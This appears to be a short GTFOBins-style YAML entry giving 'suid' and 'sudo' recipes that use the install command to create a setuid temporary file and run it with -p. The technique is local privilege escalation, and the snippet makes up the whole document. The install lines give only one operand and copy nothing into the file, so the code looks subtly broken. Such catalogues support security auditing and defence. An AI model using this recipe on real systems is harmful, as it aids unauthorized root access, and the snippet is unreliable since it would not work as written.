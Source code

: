 ```yaml
---
functions:
  suid:
    - code: |
        TF=$(mktemp)
        install -m 4755 $TF
        $TF -p
  sudo:
    - code: |
        TF=$(mktemp)
        sudo install -m 4755 $TF
        $TF -p
---
```

